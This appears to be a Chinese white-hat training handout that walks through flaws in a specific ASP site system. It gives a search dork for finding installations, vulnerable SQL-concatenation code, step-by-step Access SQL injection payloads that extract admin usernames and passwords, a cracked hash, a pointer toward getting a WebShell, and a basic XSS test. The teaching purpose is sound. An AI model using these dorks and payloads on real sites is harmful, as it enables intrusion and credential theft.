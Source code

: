 # 米斯特白帽培训讲义 实战篇 南方 0day

> 讲师：[gh0stkey](https://www.zhihu.com/people/gh0stkey/answers)

> 整理：[飞龙](https://github.com/)

> 协议：[CC BY-NC-SA 4.0](http://creativecommons.org/licenses/by-nc-sa/4.0/)

## 搜索

关键词：`inurl:"HomeMarket.asp"`。

## 下载与部署

http://www.jb51.net/article/5336.htm

## SQL 注入

我们打算检测其中的 SQL 注入漏洞，由于 ASP 代码基本没有什么好的过滤，一般一查一个准。为了搜索 SQL 注入漏洞，我们可以使用`sql`、`conn`这类名称、或者`execute`这类函数来定位到数据库查询低吗位置。

比如在`NewsType.asp`的 14 ~ 32 行，我们发现了：

```asp

<%
' ...
BigClass=request("BigClass")
SmallClass=request("SmallClass")
' ...
%>
<%
if BigClass<>"" and SmallClass<>"" then
sql="select  * from News where BigClassName='"& BigClass &"' and  SmallClassName='"& SmallClass &"' order by AddDate desc"
set rs=conn.execute(sql)
do while not rs.eof 
%>
```

我们看到这是文本型的参数，也就是说我们注入的时候要想办法闭合单引号。而且它用的是 Access 数据库，我们没办法像 MySQL 和 SQLServer 那样使用`--`来注释。

我们照旧为`SmallClass`输入`' and '1'='1`，构造的 URL 为`NewsType.asp?SmallClass=%27%20and%20%271%27=%271`，发现正常。

![](http://ww3.sinaimg.cn/large/841aea59jw1fb46h33bq8j20vm07qwfu.jpg)

输入`' and '1'='2`，构造的 URL 为`NewsType.asp?SmallClass=%27%20and%20%271%27=%272`，发现错误。

![](http://ww1.sinaimg.cn/large/841aea59jw1fb46jsnmdmj20vp066q39.jpg)

接下来我们查看源码目录下的`Databases/0791idc.mdb`，知道了`News`表一共有十个字段。

之后输入`' and 1=2 union select 1,2,3,4,5,6,7,8,9,0 from admin where '1'='1`，发现显示 2 和 9：

![](http://ww3.sinaimg.cn/large/841aea59jw1fb46jvpacxj20vo059dgj.jpg)

之后就很简单了，我们先看看`admin`表里面的用户名和密码都叫做啥。我们把 2 替换为`username`，9 替换为`password`。

![](http://ww1.sinaimg.cn/large/841aea59jw1fb46jzq1evj20w205l3za.jpg)

然后把`f3a976c77dc7264c`送到 pmd5 解密，结果为`060618`。

之后可以从`/admin`访问后台，登录并继续拿 WebShell。

## XSS

我们点击网站右上角的“联系我们”，可以发现这个页面的 URL 中出现了这四个字，页面中也出现了这四个字。

![](http://ww2.sinaimg.cn/large/841aea59jw1fb46k305u5j20v70gcdhm.jpg)

然后我们把 URL 中的`Title`参数改成`1`：

![](http://ww3.sinaimg.cn/large/841aea59jw1fb46k5xrwij20v90cidh9.jpg)

这就提示我们这里面可能会出现 XSS，我们改成`<script>alert(1)</script>`：

![](http://ww2.sinaimg.cn/large/841aea59jw1fb46k8imfgj20hc08mq3b.jpg)

我们看到源代码中出现了这个东西。

## 附录

+   [黑帽百科：2.2 常见 0day](http://www.xiaoshuwu.net/black-hat-seo/)
